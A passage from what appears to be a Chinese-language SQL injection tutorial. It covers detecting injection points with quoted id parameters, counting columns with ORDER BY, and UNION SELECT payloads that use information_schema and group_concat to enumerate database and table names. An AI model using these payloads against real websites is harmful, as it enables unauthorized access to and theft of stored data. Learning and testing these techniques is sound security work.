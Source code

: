 注入点可能在GET请求、POST请求、Cookie、HTTP头的参数中。



## 3. 一般测试步骤

+ **判断有无SQL注入：数字型/字符型**

`?id=1`

`?id='1'`

`?id="1"`

`?id=('1')`

`?id=(('1'))`

`?id=("1")`

`?id=(("1"))`

+ **判断列数：order by**

order by的作用是为了爆出select语句选择了几个字段。例如`select id,username,passwd from users order by 3`表示选择出3列字段，并按照第三个字段进行排序。那么对于这条sql语句，order by后的数字只能>=1且<=3，如果`order by 4`数据库就会报错。

+ **爆数据库**

注意union前后的select语句选择的列数要一致，否则语法错误。

```mysql
select id,username,passwd from users where id='1' union select 1,database(),3-- 
```

或者通过group_concat()爆出全部的数据库名。

```mysql
select id,username,passwd from users where id='1'
union select 1,group_concat(schema_name),3 from information_schema.schemata#
```

+ **爆表**

`desc 表名`可以用于查看表的信息。

```
mysql> desc users;
+----------+--------------+------+-----+---------+----------------+
| Field    | Type         | Null | Key | Default | Extra          |
+----------+--------------+------+-----+---------+----------------+
| Id       | int(11)      | NO   | PRI | NULL    | auto_increment |
| username | varchar(255) | YES  |     | NULL    |                |
| password | varchar(255) | YES  |     | NULL    |                |
+----------+--------------+------+-----+---------+----------------+
3 rows in set (0.00 sec)
```

sql注入获取表名，一个数据库里可能存在多张表，因此可以使用group_concat函数将所有的表名拼接在一起，

```mysql
select id,username,passwd from users where id='1'
union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='数据库名'#
```
